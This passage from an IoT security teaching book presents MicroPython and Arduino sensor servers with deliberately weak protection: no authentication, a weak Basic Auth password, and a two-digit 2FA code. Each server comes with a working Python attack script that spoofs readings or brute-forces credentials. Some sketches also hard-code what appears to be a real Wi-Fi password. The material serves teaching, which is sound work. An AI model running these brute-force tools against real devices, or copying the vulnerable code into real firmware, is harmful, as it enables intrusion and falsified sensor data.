Because native MicroPython handles bare network execution via pure TCP arrays, the vulnerability requires aggressive string parsing at scale. Notice the manual list index iteration surrounding line `78`.

\begin{lstlisting}[language=Python, caption=03\_unsecured\_web.py]
import network
import socket
import time
import machine
import dht
import secrets

# -------------------------
# Sensor Setup
# -------------------------
sensor = dht.DHT22(machine.Pin(15))

# -------------------------
# WiFi Connection
# -------------------------
wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.connect(secrets.SSID, secrets.PASSWORD)

print("Connecting to WiFi...")

while not wlan.isconnected():
    time.sleep(1)

print("Connected!")
print("IP Address:", wlan.ifconfig()[0])

# -------------------------
# Socket Server Setup
# -------------------------
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(5)
s.settimeout(1)   # ⭐ IMPORTANT → Prevents freezing

# -------------------------
# Variables
# -------------------------
spoof_active = False
t, h = "0.0", "0.0"

# -------------------------
# Main Loop
# -------------------------
try:
    while True:

        # Read real sensor if not spoofing
        if not spoof_active:
            try:
                sensor.measure()
                t = "{:.1f}".format(sensor.temperature())
                h = "{:.1f}".format(sensor.humidity())
            except:
                pass

        # Wait for connection (non-blocking)
        try:
            conn, addr = s.accept()
        except OSError:
            time.sleep(0.1)
            continue

        try:
            raw_req = conn.recv(1024)
            if not raw_req:
                conn.close()
                continue

            request = raw_req.decode()

            # -------------------------
            # Spoof Request
            # -------------------------
            if '/set_env?' in request:
                try:
                    query = request.split('?')[1].split(' ')[0]
                    for p in query.split('&'):
                        if p.startswith('t='):
                            t = p.split('=')[1]
                        if p.startswith('h='):
                            h = p.split('=')[1]
                    spoof_active = True
                except:
                    pass

            # -------------------------
            # Reset Request
            # -------------------------
            if '/reset' in request:
                spoof_active = False

            # -------------------------
            # HTML Page
            # -------------------------
            html = f"""<!DOCTYPE html>
<html>
<head>
<title>Remote Monitor</title>
<meta http-equiv="refresh" content="2">
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
body {{
    background-color: #121212;
    font-family: sans-serif;
    display: flex;
    justify-content: center;
    align-items: center;
    height: 100vh;
    margin: 0;
}}
.card {{
    background-color: #1e1e1e;
    padding: 2rem;
    border-radius: 1rem;
    box-shadow: 0 4px 15px rgba(0,0,0,0.5);
    text-align: center;
    width: 300px;
}}
.temp {{
    color: cyan;
    font-size: 2.5rem;
    font-weight: bold;
}}
.hum {{
    color: pink;
    font-size: 2.5rem;
    font-weight: bold;
}}
.label {{
    color: #888;
    font-size: 0.8rem;
    text-transform: uppercase;
    letter-spacing: 1px;
}}
.status {{
    margin-top: 1rem;
    color: orange;
    font-size: 0.9rem;
}}
button {{
    margin-top: 1rem;
    padding: 8px 15px;
    border: none;
    border-radius: 6px;
    background: #333;
    color: white;
}}
</style>
</head>
<body>
<div class="card">
    <div class="label">Temperature</div>
    <div class="temp">{t} &deg;C</div>
    <div class="label">Humidity</div>
    <div class="hum">{h} %</div>
    <div class="status">
        {"SPOOF MODE ACTIVE" if spoof_active else "LIVE SENSOR DATA"}
    </div>
    <a href="/reset"><button>Reset to Live</button></a>
</div>
</body>
</html>"""

            # Send response
            conn.send('HTTP/1.0 200 OK\r\nContent-type: text/html\r\n\r\n')
            conn.sendall(html)
            conn.close()

        except Exception as e:
            conn.close()

        time.sleep(0.1)

# -------------------------
# Clean Exit
# -------------------------
except KeyboardInterrupt:
    print("Server Stopped by User")
    s.close()
\end{lstlisting}

\section{The Exploitation Mechanism (Python Hacker Script)}

The following unabridged code represents the `03\_attack.py` Interactive Python Script. This is designed to be executed strictly from the Attacker's computer on the Local Area Network using native execution (`python 03\_attack.py`).

\begin{lstlisting}[language=Python, caption=03\_attack.py]
# Simple Interactive Exploit Tool (Educational Demo Only)

import urllib.request

print("=== PICO VULNERABILITY DEMO TOOL ===")
print("------------------------------------")

# 1. Ask Target IP
ip = input("Enter Pico IP address: ").strip()

# 2. Ask Mode
print("\nSelect Mode:")
print("1. Spoof Data")
print("2. Reset System")

choice = input("Enter choice (1 or 2): ").strip()

# 3. SPOOF MODE
if choice == "1":
    temp = input("Enter fake Temperature: ").strip()
    hum = input("Enter fake Humidity: ").strip()
    
    url = f"http://{ip}/set_env?t={temp}&h={hum}"
    print("\n[*] Sending spoofed data...")

# 4. RESET MODE
elif choice == "2":
    url = f"http://{ip}/reset"
    print("\n[*] Sending reset command...")

else:
    print("Invalid choice!")
    exit()

# 5. Send Request
try:
    urllib.request.urlopen(url, timeout=5)
    print("[+] Attack Sent Successfully!")
    print("[+] Check Pico dashboard now.")
except Exception as e:
    print("[-] Failed:", e)
\end{lstlisting}

\begin{takeawaybox}
This interactive terminal script completely nullifies the physical existence of the IoT sensor array without demanding a single credential. The ease of execution using generic Python libraries (like \texttt{urllib} or \texttt{requests}) highlights the fundamental flaw in prioritizing immediate functionality over rigorous authentication checks.
\end{takeawaybox}

% ==========================================
% CHAPTER 05: Level 7 (Basic Auth)
% ==========================================
\chapter{Level 7: HTTP Basic Authentication}

\textbf{In This Chapter:}
\begin{itemize}
    \item Deploying the `Authorization: Basic` HTTP Header.
    \item Base64 encoding mathematics explicitly revealed.
    \item Executing NodeMCU Level 7 and Pico W `04\_weak\_login`.
    \item Deploying the catastrophic Python Dictionary Brute-Force (`04\_attack.py`).
\end{itemize}

To immediately patch the vulnerability demonstrated in Level 6, we seal the endpoint using HTTP Basic Authentication (Defined globally in RFC 7617: \url{https://datatracker.ietf.org/doc/html/rfc7617}). 

\section{The Mechanics of Basic Auth}
When a user navigates to a secured endpoint, the server rejects them using status code `401 Unauthorized`. It also transmits the header `WWW-Authenticate: Basic`. The browser intercepts this header, halts the HTML engine, and generates a native login popup window.

When the user clicks "Submit", the browser merges the username and password, separated by a colon (e.g., `admin:1234`). It then runs this string through a \textbf{Base64 Encoding Algorithm}. 

Base64 is a binary-to-text encoding scheme. It translates the string into a globally printable ASCII format. `admin:1234` mathematically converts to `YWRtaW46MTIzNA==`. The browser transmits this string back to the server:
\texttt{Authorization: Basic YWRtaW46MTIzNA==}

\begin{troubleshootbox}[Base64 is NOT Encryption!]
Base64 utilizes NO cryptographic keys! It is merely a translation alphabet. Any attacker sniffing the Wi-Fi packet can capture `YWRtaW46MTIzNA==` and reverse it back into `admin:1234` instantly. Never use Basic Auth exclusively over non-TLS (HTTP) networks for safety-critical architecture.
\end{troubleshootbox}

% -------------------------
% NodeMCU
% -------------------------
\section{Systematic NodeMCU Implementation (Level 7)}
The Arduino C++ ecosystem makes this incredibly streamlined. We restrict the override capability utilizing `server.authenticate()`. Unabridged code below:

\begin{lstlisting}[language=C++, caption=23022026\_Level\_7\_IoT\_Secure\_Override\_Demo.ino]
/*
  IoT Security Demo – Password Protected Override
  ------------------------------------------------
  Board: NodeMCU (ESP8266)
  Sensor: DHT22

  PURPOSE:
  1. Show real temperature & humidity by default.
  2. Allow override using URL parameters (?t= & ?h=).
  3. Require username & password before allowing override.
  4. Fake values remain until reboot.

  HOW TO TEST:

  Normal:
    http://YOUR_IP

  Override (Browser):
    http://YOUR_IP/?t=100&h=5
    → Browser will ask Username & Password

  Override (CMD):
    curl -u admin:1234 "http://YOUR_IP/?t=80&h=10"

  NOTE:
  This uses Basic Authentication over HTTP.
  Password is NOT encrypted (educational demo only).
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>

#define D5PIN D5
#define DHTTYPE DHT22

// ---------------- WIFI CONFIG ----------------
const char* ssid = "drarka.in";            // Your WiFi Name
const char* pass = "arkaprabha@1985";      // Your WiFi Password

// ---------------- ADMIN LOGIN ----------------
const char* adminUser = "admin";           // Username for override
const char* adminPass = "1234";            // Password for override

// ---------------- OBJECTS ----------------
DHT dht(D5PIN, DHTTYPE);
ESP8266WebServer server(80);

// ---------------- OVERRIDE STORAGE ----------------
float overrideTemp = NAN;
float overrideHum  = NAN;

void setup() {

  Serial.begin(9600);       // Start Serial Monitor
  dht.begin();              // Start DHT sensor

  WiFi.begin(ssid, pass);   // Connect to WiFi
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
  }

  Serial.println("Connected!");
  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());

  // ---------------- WEB SERVER ----------------
  server.on("/", []() {

    // Step 1: If user tries to override values...
    if (server.hasArg("t") || server.hasArg("h")) {

      // Step 2: Ask for authentication against the memory variables
      if (!server.authenticate(adminUser, adminPass)) {
        return server.requestAuthentication(); // Throws 401 Header
      }

      // Step 3: If login successful → store override safely
      if (server.hasArg("t")) overrideTemp = server.arg("t").toFloat();
      if (server.hasArg("h")) overrideHum  = server.arg("h").toFloat();

      Serial.println("Override authorized!");
    }

    // Read real sensor values
    float t = dht.readTemperature();
    float h = dht.readHumidity();

    // Replace with override if exists
    if (!isnan(overrideTemp)) t = overrideTemp;
    if (!isnan(overrideHum))  h = overrideHum;

    // -------- HTML PAGE --------
    String page = "<html>";
    page += "<head><meta http-equiv='refresh' content='5'></head>";
    page += "<body bgcolor='black' text='white'><center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center></body></html>";

    server.send(200, "text/html", page);
  });

  server.begin();  // Start server
}

void loop() {
  server.handleClient();  // Keep server running
}
\end{lstlisting}

% -------------------------
% Pico W 04
% -------------------------
\section{Systematic Pico W Implementation (04\_Weak\_Login)}
In MicroPython, lacking the high-level web server class libraries, we pre-calculate the Base64 value manually using the \texttt{ubinascii} library, and parse the socket strings looking for a literal substring match.

\begin{lstlisting}[language=Python, caption=04\_weak\_login.py]
import network
import socket
import time
import machine
import dht
import ubinascii
import secrets

# -------------------------
# Sensor Setup
# -------------------------
sensor = dht.DHT22(machine.Pin(15))

# -------------------------
# WiFi Connection
# -------------------------
wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.connect(secrets.SSID, secrets.PASSWORD)

print("Connecting to WiFi...")
while not wlan.isconnected():
    time.sleep(1)

ip = wlan.ifconfig()[0]
print("Connected! IP:", ip)

# -------------------------
# Authentication Setup
# -------------------------
# Step 1: Base64 Translation Execution
auth = ubinascii.b2a_base64(
    f"{secrets.WEB_USER}:{secrets.WEB_PASS}".encode()
).strip().decode()

expected = f"Basic {auth}"

# -------------------------
# Socket Setup
# -------------------------
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(5)
s.settimeout(1.0)   # Prevents freezing

# -------------------------
# Variables
# -------------------------
t, h = "0.0", "0.0"
spoof_active = False

print("Server running...")

# -------------------------
# Main Loop
# -------------------------
try:
    while True:

        # Update real sensor data
        if not spoof_active:
            try:
                sensor.measure()
                t = "{:.1f}".format(sensor.temperature())
                h = "{:.1f}".format(sensor.humidity())
            except:
                pass

        conn = None

        try:
            conn, addr = s.accept()
            conn.settimeout(1.0)

            raw_req = conn.recv(1024)
            if not raw_req:
                conn.close()
                continue

            req = raw_req.decode()

            # -------------------------
            # AUTH CHECK
            # -------------------------
            # Step 2: Does the browser string contain our exact Base64 match?
            if expected in req:

                # Spoof Sensor
                if '/set_env?' in req:
                    try:
                        query = req.split('?')[1].split(' ')[0]
                        parts = query.split('&')
                        for p in parts:
                            if p.startswith('t='):
                                t = p.split('=')[1]
                            if p.startswith('h='):
                                h = p.split('=')[1]
                        spoof_active = True
                    except:
                        pass

                # Reset
                if '/reset' in req:
                    spoof_active = False

                # -------------------------
                # HTML UI
                # -------------------------
                html = f"""<!DOCTYPE html>
<html>
<head>
<title>Pico Secure Monitor</title>
<meta http-equiv="refresh" content="2">
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
body {{
    background-color: #121212;
    font-family: sans-serif;
    display: flex;
    justify-content: center;
    align-items: center;
    height: 100vh;
    margin: 0;
}}
.card {{
    background-color: #1e1e1e;
    padding: 2rem;
    border-radius: 1rem;
    box-shadow: 0 4px 15px rgba(0,0,0,0.5);
    text-align: center;
    width: 320px;
}}
.temp {{
    color: cyan;
    font-size: 2.5rem;
    font-weight: bold;
}}
.hum {{
    color: pink;
    font-size: 2.5rem;
    font-weight: bold;
}}
.label {{
    color: #888;
    font-size: 0.8rem;
    text-transform: uppercase;
    letter-spacing: 1px;
}}
.status {{
    margin-top: 1rem;
    color: orange;
    font-size: 0.9rem;
}}
button {{
    margin-top: 1rem;
    padding: 8px 15px;
    border: none;
    border-radius: 6px;
    background: #333;
    color: white;
}}
</style>
</head>
<body>
<div class="card">
    <div class="label">Temperature</div>
    <div class="temp">{t} &deg;C</div>
    <div class="label">Humidity</div>
    <div class="hum">{h} %</div>

    <div class="status">
        {"SPOOF MODE ACTIVE" if spoof_active else "LIVE SENSOR DATA"}
    </div>

    <a href="/reset"><button>Reset</button></a>
</div>
</body>
</html>"""

                conn.send('HTTP/1.0 200 OK\r\nContent-type: text/html\r\n\r\n')
                conn.sendall(html)

            else:
                # Step 3: Hard Socket Rejection logic
                conn.send('HTTP/1.0 401 Unauthorized\r\n')
                conn.send('WWW-Authenticate: Basic realm="Restricted"\r\n\r\n')
                conn.send('<h1>401 Unauthorized</h1>')

            conn.close()

        except OSError:
            time.sleep(0.1)

        except Exception:
            if conn:
                conn.close()

        time.sleep(0.1)

except KeyboardInterrupt:
    print("Server Stopped")
    s.close()
\end{lstlisting}

% -------------------------
% ATTACK SCRIPT
% -------------------------
\section{The Brute-Force Exploit (Python Dictionary Protocol)}

Congratulations. The Python Hack script from Chapter 4 reliably crashes violently against the `401 Unauthorized` wall. However, our device is still functionally compromised. By utilizing a "Weak" PIN code mechanism, an attacker upgrades their logic from blind opportunism to targeted \textbf{Dictionary Aggregation}.

By running the `04\_attack.py` script on the attacking laptop, the script sequentially builds native Base64 payloads (e.g., `test\_auth`) and slams them repeatedly against the Pico's port 80. Note the specific inclusion of `time.sleep(1)` inside the attack script: this is not an artificial delay to be nice. If the attacker hurled strings too fast, the Pico's weak processor halts under a Denial-of-Service freeze, making the attack fail! A skilled attacker paces their attack precisely to match the hardware execution speed of their victim.

\begin{lstlisting}[language=Python, caption=04\_attack.py]
import urllib.request
import urllib.error
import sys
import time
import base64

# --- Configuration ---
print("--- PICO ULTIMATE EXPLOIT TOOL ---")
target_ip = input("Enter Pico IP (e.g., 192.168.1.50): ")
username = input("Enter Username to target: ")

def test_auth(ip, user, pwd):
    """Tests a single password and returns the auth_str if successful."""
    creds = f"{user}:{pwd}"
    auth_str = base64.b64encode(creds.encode()).decode()
    headers = {
        "Authorization": f"Basic {auth_str}",
        "Connection": "close"  # Crucial for Pico stability
    }
    url = f"http://{ip}/"
    
    try:
        req = urllib.request.Request(url, headers=headers)
        with urllib.request.urlopen(req, timeout=3) as response:
            if response.status == 200:
                return auth_str
    except urllib.error.HTTPError as e:
        if e.code == 401:
            return None # Wrong password
    except Exception:
        return "RETRY" # Pico is likely busy or timed out
    return None

# --- Phase 1: Authentication ---
found_auth = None
mode = input("Do you know the password? (y/n): ").lower()

if mode == 'y':
    pwd = input("Enter known password: ")
    print("[*] Verifying...")
    found_auth = test_auth(target_ip, username, pwd)
    if not found_auth:
        print("[-] Incorrect. Switching to Brute Force...")
        mode = 'n'

if mode == 'n':
    print(f"[*] Starting Brute Force (00-99) for '{username}'...")
    for i in range(100):
        # Format string integer injection
        pwd = f"{i:02d}"  # Formats as 00, 01, 02...
        sys.stdout.write(f"\r[*] Testing PIN: {pwd} ")
        sys.stdout.flush()
        
        result = test_auth(target_ip, username, pwd)
        
        if result == "RETRY":
            # Pico is overwhelmed, wait a second and try the same number again
            time.sleep(1)
            result = test_auth(target_ip, username, pwd)

        if result and result != "RETRY":
            print(f"\n[+] SUCCESS! Password found: {pwd}")
            found_auth = result
            break
        
        # Small delay to prevent the Pico's network stack from crashing
        time.sleep(0.1)

# --- Phase 2: Exploit Menu ---
if found_auth:
    headers = {"Authorization": f"Basic {found_auth}", "Connection": "close"}
    while True:
        print("\n" + "="*20)
        print(" ACCESS GRANTED ")
        print("="*20)
        print("1. SPOOF DATA (T=99.9, H=99.9)")
        print("2. CUSTOM OVERRIDE")
        print("3. RESET SYSTEM")
        print("4. EXIT")
        
        choice = input("\nSelect Option: ")
        
        path = ""
        if choice == "1":
            path = "/set_env?t=99.9&h=99.9"
        elif choice == "2":
            t = input("Enter Temp: ")
            h = input("Enter Humid: ")
            path = f"/set_env?t={t}&h={h}"
        elif choice == "3":
            path = "/reset"
        elif choice == "4":
            break
        
        if path:
            try:
                req = urllib.request.Request(f"http://{target_ip}{path}", headers=headers)
                urllib.request.urlopen(req, timeout=3)
                print("[+] Command sent successfully!")
            except Exception as e:
                print(f"[!] Command failed: {e}")
else:
    print("\n[-] Attack finished. No access gained.")
\end{lstlisting}

This algorithm completely obliterates the Level 7 NodeMCU and the 04 Pico defenses. In less than ten seconds, the device will yield to `admin:1234` or whatever weak numerical boundary the user has established. We must proceed to Lockouts.

% ==========================================
% CHAPTER 06: Level 8 (Lockouts & 2FA)
% ==========================================
\chapter{Level 8: Hard Lockouts \& Random 2FA}

\textbf{In This Chapter:}
\begin{itemize}
    \item Systematically punishing automated iteration loops.
    \item NodeMCU Level 8: Generating random 2-Factor Integer Authentication.
    \item Pico W `05\_strong\_login`: Implementing native memory State-Tracking (3-Strike Lockout).
\end{itemize}

A secure system must be deliberately hostile to failure. By deploying the Python Attack Script in the previous chapter, we established that simple Basic Authentication is a flimsy curtain. Real defensive architecture must mathematically constrain and punish algorithmic guessing vectors.

\section{Systematic NodeMCU Implementation (Level 8)}
The NodeMCU developer decides to implement a basic "2FA" mechanism. Upon passing Basic Auth, the processor calculates a random number between 10 and 99 (`random(10, 100)`) via the native `randomSeed(micros())` logic. It prints this to the physical Serial Monitor. The user must type this code into the URL `?code=XX`.

\begin{lstlisting}[language=C++, caption=23022026\_Level\_8\_IoT\_2FA.ino]
/*
  Demo 8 - IoT 2-Factor Authentication (2FA) with Redirect Fix
  --------------------------------------------------------------
  Board: NodeMCU (ESP8266)
  Sensor: DHT22

  FEATURES:
  1. Real sensor data shown by default.
  2. Override requires:
     - Username & Password (Basic Auth)
     - 2FA Code (2-digit random number)
  3. After successful override, page redirects to prevent refresh errors.
  4. Fake values persist until reboot.
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>

#define D5PIN D5
#define DHTTYPE DHT22

const char* ssid = "drarka.in";
const char* pass = "arkaprabha@1985";

const char* adminUser = "admin";
const char* adminPass = "1234";

DHT dht(D5PIN, DHTTYPE);
ESP8266WebServer server(80);

float overrideTemp = NAN;
float overrideHum  = NAN;

int twoFactorCode = 0;

void generateNewCode() {
  twoFactorCode = random(10, 100);
  Serial.print("New 2FA Code: ");
  Serial.println(twoFactorCode);
}

void setup() {

  Serial.begin(9600);
  randomSeed(micros());
  dht.begin();

  WiFi.begin(ssid, pass);
  while (WiFi.status() != WL_CONNECTED) delay(500);

  Serial.print("Open this IP: ");
  Serial.println(WiFi.localIP());

  generateNewCode();

  server.on("/", []() {

    if (server.hasArg("t") || server.hasArg("h")) {

      if (!server.authenticate(adminUser, adminPass)) {
        return server.requestAuthentication();
      }

      if (!server.hasArg("code")) {

        String form = "<html><body bgcolor='black' text='white'><center>";
        form += "<h2>Enter 2FA Code</h2>";
        form += "<form method='GET'>";
        form += "<input type='hidden' name='t' value='" + server.arg("t") + "'>";
        form += "<input type='hidden' name='h' value='" + server.arg("h") + "'>";
        form += "<input name='code' type='text'>";
        form += "<br><br><input type='submit' value='Submit'>";
        form += "</form>";
        form += "</center></body></html>";

        server.send(200, "text/html", form);
        return;
      }

      if (server.arg("code").toInt() != twoFactorCode) {
        server.send(403, "text/plain", "Invalid 2FA Code!");
        return;
      }

      if (server.hasArg("t")) overrideTemp = server.arg("t").toFloat();
      if (server.hasArg("h")) overrideHum  = server.arg("h").toFloat();

      Serial.println("Override successful with 2FA!");

      generateNewCode();

      server.sendHeader("Location", "/");
      server.send(303);
      return;
    }

    float t = dht.readTemperature();
    float h = dht.readHumidity();

    if (!isnan(overrideTemp)) t = overrideTemp;
    if (!isnan(overrideHum))  h = overrideHum;

    String page = "<html>";
    page += "<head><meta http-equiv='refresh' content='5'></head>";
    page += "<body bgcolor='black' text='white'><center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center></body></html>";

    server.send(200, "text/html", page);
  });

  server.begin();
}

void loop() {
  server.handleClient();
}
\end{lstlisting}

% -------------------------
% HACKING NODE MCU
% -------------------------
\section{Bypassing the Random 2FA Matrix}
The developer assumes 2FA is impenetrable. Unfortunately, because the execution matrix lacks a state-tracking "Threshold Lockout", an attacker writes a new script mapping the 10-99 matrix directly over the query URL. 

The Python script (`Demo\_8\_Guess\_Code.py`) crunches the two-digit integer loop in less than 3 seconds over Wi-Fi, completely defeating the "Security".

\begin{lstlisting}[language=Python, caption=Demo\_8\_Guess\_Code.py]
import requests
from requests.auth import HTTPBasicAuth

# Configuration
TARGET_IP = "http://10.158.58.32"  # Replace with your ESP8266 IP
ADMIN_USER = "admin"
ADMIN_PASS = "1234"

# The values you want to force into the sensor display
NEW_TEMP = "125.0"
NEW_HUMIDITY = "150.0"

def start_brute_force():
    print(f"[*] Starting 2-digit 2FA brute force on {TARGET_IP}...")
    
    # Try every combination from 10 to 99 (based on your random(10, 100) logic)
    for code in range(10, 100):
        params = {
            't': NEW_TEMP,
            'h': NEW_HUMIDITY,
            'code': str(code)
        }
        
        try:
            # Send GET request with Basic Auth
            response = requests.get(
                TARGET_IP, 
                params=params, 
                auth=HTTPBasicAuth(ADMIN_USER, ADMIN_PASS),
                timeout=2
            )
            
            # Check if we were redirected (303) or got a 200 without the "Invalid" message
            if response.status_code == 200 and "Invalid 2FA Code!" not in response.text:
                print(f"[+] Success! Correct Code: {code}")
                return
            else:
                print(f"[-] Code {code} failed.")
                
        except requests.exceptions.RequestException as e:
            print(f"[!] Error: {e}")
            break

    print("[!] Brute force complete. No code found or device reset.")

if __name__ == "__main__":
    start_brute_force()
\end{lstlisting}

% -------------------------
% PICO W LOCKOUTS
% -------------------------
\section{Systematic Pico W Implementation (05\_Strong\_Login)}
Because brute forcing defeated NodeMCU Level 8 instantly, the Pico W MicroPython developer implements a \textbf{State-Tracking Lockout} utilizing a Python dictionary mapping client IPs to failed attempts. `attempt\_counter[client\_ip] = [fails, timestamp]`. If `MAX\_ATTEMPTS >= 5`, the entire TCP Socket returns an impenetrable `403 Forbidden` for a massive 60 seconds (`LOCKOUT\_TIME`). 

\begin{lstlisting}[language=Python, caption=05\_strong\_login.py]
import network
import socket
import time
import machine
import dht
import ubinascii
import secrets

# -------------------------
# Sensor Setup
# -------------------------
sensor = dht.DHT22(machine.Pin(15))

# -------------------------
# WiFi Connection
# -------------------------
wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.connect(secrets.SSID, secrets.PASSWORD)

while not wlan.isconnected():
    time.sleep(1)

print("Connected! IP:", wlan.ifconfig()[0])

# -------------------------
# Security Setup
# -------------------------
auth = ubinascii.b2a_base64(
    f"{secrets.WEB_USER}:{secrets.WEB_PASS_STRONG}".encode()
).strip().decode()
expected = f"Basic {auth}"

attempt_counter = {}
MAX_ATTEMPTS = 5
LOCKOUT_TIME = 60 

# -------------------------
# Socket Setup
# -------------------------
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(5)
s.settimeout(1.0)

t, h = "0.0", "0.0"
spoof_active = False

print("Server Secure & Running...")

try:
    while True:
        if not spoof_active:
            try:
                sensor.measure()
                t = "{:.1f}".format(sensor.temperature())
                h = "{:.1f}".format(sensor.humidity())
            except: pass

        conn = None
        try:
            conn, addr = s.accept()
            client_ip = addr[0]
            curr_t = time.time()

            # --- LOCKOUT CHECK ---
            if client_ip in attempt_counter:
                fails, l_time = attempt_counter[client_ip]
                # Step 1: Execute Time Delta Mathematics
                if fails >= MAX_ATTEMPTS:
                    if curr_t - l_time < LOCKOUT_TIME:
                        # Rejection sequence halts all processing for exactly 60 seconds!
                        conn.send('HTTP/1.0 403 Forbidden\r\n\r\n')
                        conn.send('<h1>403 Forbidden: Locked out.</h1>')
                        conn.close()
                        continue
                    else:
                        attempt_counter[client_ip] = [0, 0]

            conn.settimeout(1.0)
            raw_req = conn.recv(1024)
            if not raw_req:
                conn.close()
                continue

            req = raw_req.decode()

            if expected in req:
                attempt_counter[client_ip] = [0, 0] 
                
                if '/set_env?' in req:
                    query = req.split('?')[1].split(' ')[0]
                    for p in query.split('&'):
                        if p.startswith('t='): t = p.split('=')[1]
                        if p.startswith('h='): h = p.split('=')[1]
                    spoof_active = True
                if '/reset' in req: spoof_active = False

                # --- UPDATED STYLISH HTML UI ---
                html = f"""<!DOCTYPE html>
<html>
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <style>
        body {{ 
            background-color: #121212; 
            color: white; 
            font-family: sans-serif; 
            display: flex; 
            flex-direction: column; 
            align-items: center; 
            justify-content: center; 
            height: 100vh; 
            margin: 0; 
        }}
        .card {{
            background: #1e1e1e;
            padding: 30px;
            border-radius: 20px;
            box-shadow: 0 10px 30px rgba(0,0,0,0.5);
            text-align: center;
        }}
        .label {{ color: #888; font-size: 1.2rem; text-transform: uppercase; }}
        .temp {{ color: cyan; font-size: 5rem; font-weight: bold; margin: 10px 0; }}
        .hum {{ color: pink; font-size: 5rem; font-weight: bold; margin: 10px 0; }}
        .status {{ color: orange; font-size: 1rem; margin-top: 20px; }}
        button {{
            background: #333; color: white; border: none; padding: 10px 20px;
            border-radius: 10px; cursor: pointer; margin-top: 20px;
        }}
    </style>
</head>
<body>
    <div class="card">
        <div class="label">Temperature</div>
        <div class="temp">{t}&deg;C</div>
        <div class="label">Humidity</div>
        <div class="hum">{h}%</div>
        <div class="status">MODE: {"SPOOFED" if spoof_active else "LIVE SENSOR"}</div>
        <a href="/reset"><button>Reset Sensor</button></a>
    </div>
</body>
</html>"""
                
                conn.send('HTTP/1.0 200 OK\r\nContent-type: text/html\r\n\r\n')
                conn.sendall(html)
            else:
                if client_ip not in attempt_counter:
                    attempt_counter[client_ip] = [1, curr_t]
                else:
                    attempt_counter[client_ip][0] += 1
                    attempt_counter[client_ip][1] = curr_t
                
                conn.send('HTTP/1.0 401 Unauthorized\r\n')
                conn.send('WWW-Authenticate: Basic realm="Restricted"\r\n\r\n')
                conn.send('<h1>401 Unauthorized</h1>')

            conn.close()
        except Exception:
            if conn: conn.close()
except KeyboardInterrupt:
    s.close()
\end{lstlisting}

% -------------------------
% HACKING THE PICO W
% -------------------------
\section{Failing Against the Pico W Defenses}
We write the `05\_attack.py` script specifically to target the `403 Forbidden` response code. When launched, the dictionary loop successfully executes numbers `000000` through `000004`... and then instantly fails.

\begin{lstlisting}[language=Python, caption=05\_attack.py]
import urllib.request
import urllib.error
import base64
import time
import sys

# --- [BLOCK 1: INPUTS] ---
target_ip = input("Enter Pico IP: ")
target_user = input("Enter Username: ")

def attempt_login(pwd):
    """Sends a request with a 6-digit PIN."""
    auth_str = base64.b64encode(f"{target_user}:{pwd}".encode()).decode()
    headers = {"Authorization": f"Basic {auth_str}", "Connection": "close"}
    try:
        req = urllib.request.Request(f"http://{target_ip}/", headers=headers)
        with urllib.request.urlopen(req, timeout=1) as res:
            if res.status == 200: return "FOUND"
    except urllib.error.HTTPError as e:
        if e.code == 401: return "WRONG"
        if e.code == 403: return "BLOCKED"
    except: return "ERROR"
    return "NONE"

# --- [BLOCK 2: GENERATOR LOOP] ---
print(f"[*] Cracking 6-digit PIN for {target_user}...")

# This generates numbers 000000 to 999999
for i in range(1000000):
    pin = f"{i:06d}" # Formats as 000001, 000002, etc.
    
    sys.stdout.write(f"\r[*] Testing: {pin} ")
    sys.stdout.flush()
    
    result = attempt_login(pin)
    
    if result == "FOUND":
        print(f"\n[+] SUCCESS! PIN is: {pin}")
        break
    elif result == "BLOCKED":
        print(f"\n[!] ATTACK STOPPED: Blocked by Pico after 5 fails.")
        print("[*] The lockout mechanism is working.")
        break
    
    # Slight pause to let the Pico recover
    time.sleep(0.05)
\end{lstlisting}

\begin{takeawaybox}
By enforcing a `403 Forbidden` block coupled directly with a Time-Delta `LOCKOUT\_TIME = 60` threshold limit, the algorithm effectively halts brute forcing. A script guessing 1,000,000 combinations 5 times a minute will mathematically require roughly \textbf{380 YEARS} to natively bypass the microcontroller!
\end{takeawaybox}

% ==========================================
% CHAPTER 07: Level 9 (Time Rotations & Permanent Locks)
% ==========================================
\chapter{Level 9: Time Domains \& Absolute Lockouts}

\textbf{In This Chapter:}
\begin{itemize}
    \item Systematically deploying mathematical Temporal shifting keys.
    \item Demonstrating catastrophic `403 Forbidden` permanent denial configurations.
    \item Full code execution for NodeMCU Demo 9 and Pico W `06\_strong\_login\_TOTP`.
\end{itemize}

The fundamental flaw in Level 8 was static persistence. The random 2FA array stayed valid until the user explicitly authenticated it correctly, giving the Python brute force script infinite time to crack the two-digit code. In Level 9, we introduce two colossal upgrades:
1. The 2FA code is expanded to 6 digits (000000 to 999999).
2. The 2FA code automatically self-destructs and re-rotates every 15 seconds.
3. The threshold lockout is no longer a 60-second delay; it permanently destroys the execution loop, demanding a hard physical reboot of the server rack!

\section{Systematic NodeMCU Implementation (Demo 9)}
Notice how the `permanentlyBlocked` boolean state dictates the entire processor loop. If activated, the device renders a `403 Forbidden` response instantly and forever.

\begin{lstlisting}[language=C++, caption=Demo\_9\_Strong\_2FA\_With\_Description.ino]
/*
  Demo 9 - Strong 2FA IoT Security Demo
